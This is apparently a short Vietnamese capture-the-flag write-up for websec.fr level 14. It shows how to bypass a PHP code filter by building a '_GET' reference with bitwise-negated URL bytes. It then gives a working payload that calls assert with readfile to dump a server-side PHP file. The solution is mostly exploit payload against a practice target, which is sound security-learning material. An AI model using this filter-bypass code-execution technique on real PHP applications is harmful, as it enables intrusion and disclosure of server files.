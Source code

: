 # Solution

Dùng URL negation để bypass filter

ta construct `${_GET}{0}(${_GET}{1})`

với `_GET = ~%A0%B8%BA%AB`

POST đến 

```
https://websec.fr/level14/index.php
?0=assert
&1=print_r(readfile('0e7efcd6e821f4bb90af4e4c439001944c1769da.php'))
```
\+

```
code=${~%A0%B8%BA%AB}{0}(${~%A0%B8%BA%AB}{1});
```

Mình dùng Hackbar với `enctype=application/x-www-form-urlencoded(raw)`
